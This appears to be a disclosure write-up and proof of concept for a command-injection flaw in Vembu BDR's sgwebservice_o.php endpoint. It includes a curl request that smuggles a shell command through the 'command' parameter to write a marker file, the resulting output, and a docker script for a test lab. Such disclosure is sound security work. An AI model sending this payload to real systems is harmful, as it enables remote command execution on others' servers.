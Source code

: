 ```yaml
---
layout: none
---
```

## How to reproduce
Step 1:Start up a docker environment (see below)

Step 2: In a different terminal run the following command:
```bash
> $ curl 'http://127.0.0.1:6060/sgwebservice_o.php?Action=StoreSpecialFolder&command=echo%20hacked%20%3E%2Ftmp%2Fdivd_was_here.txt&tempFile=/tmp'
 
<storegrid><saved messsage='Files filtered and cached successfully.Now You can continue your schedule..' error='0'></saved></storegrid>$
```

Step 3: validate that a file was written in /tmp:
```bash

$ docker exec VembuBDR4201 /bin/bash -c "ls -l /tmp;echo ---;cat /tmp/divd_was_here.txt;echo ---"
total 16
-rw-r--r-- 1 www-data www-data    7 Feb 11 15:00 divd_was_here.txt
drwxr-xr-x 1 root     root     4096 Feb 11 14:52 hsperfdata_root
drwxr-xr-x 1 root     root     4096 Feb 11 14:52 vmware
drwx------ 2 root     root     4096 Jun 12  2020 vmware-root
---
hacked
---
$
```


## Impact
This vulnerability allows an attacker to execute an arbitrary (windows/linux) shell command in the context of the httpd process.


## About the docker test environment.
In order to set up the docker test environment, we used the following script:
```bash
#!/bin/bash
 
# Network
if [[ $(docker network ls |grep vembu-netowrk |wc -l ) -lt 1 ]]; then
  docker network create --subnet=172.18.0.0/16 vembu-network
fi
 
# Start Database container
mkdir DB
while [[ $(docker ps -a |grep VembuDatabase|wc -l) -ge 1 ]]; do
  docker kill VembuDatabase
  docker rm VembuDatabase
  sleep 1
done
docker run --name VembuDatabase --network vembu-network --ip 172.18.0.2 -p 5432:5432 -d -e POSTGRES_PASSWORD=admin -e POSTGRES_USER=postgres -e POSTGRES_DB=SGDatabase -v  $PWD/DB:/vembu vembubdr/bdr-latest:psql-latest
 
# Wait for database port to open
echo -c "Waiting for database to become available..."
while ! timeout 1 bash -c "echo > /dev/tcp/localhost/5432" ; do 
  echo -c "."
  sleep 1; 
done
echo
 
# Start APP container
mkdir APP
while [[ $(docker ps -a |grep VembuBDR4201|wc -l) -ge 1 ]]; do
  docker kill VembuBDR4201
  docker rm VembuBDR4201
  sleep 1
done
 
docker run --name VembuBDR4201 --network vembu-network --ip 172.18.0.3 --add-host VembuDatabase:172.18.0.2 --privileged=true -i -t -d --device /dev/fuse --privileged -p 6060:6060 -p 32004:32004 -v $PWD/APP:/vembu vembubdr/bdr-latest:vembubdr-4201-u1
 
# Wait for app port to open
echo -c "Waiting for application to become available..."
while ! timeout 1 bash -c "echo > /dev/tcp/localhost/6060" ; do 
  echo -c "."
  sleep 1; 
done
echo 
```
